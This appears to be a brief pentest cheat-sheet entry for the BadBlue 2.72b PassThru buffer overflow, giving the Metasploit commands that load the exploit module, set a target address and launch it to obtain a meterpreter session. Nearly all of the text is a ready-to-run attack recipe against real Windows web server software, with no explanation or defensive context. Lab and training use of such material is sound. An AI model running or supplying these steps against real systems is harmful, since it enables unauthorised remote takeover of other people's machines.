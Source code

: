 # BadBlue
- BadBlue 2.72b PassThru Buffer Overflow
```
msfconsole

use exploit/windows/http/badblue_passthru
set RHOSTS <ip>
exploit

meterpreter >
```
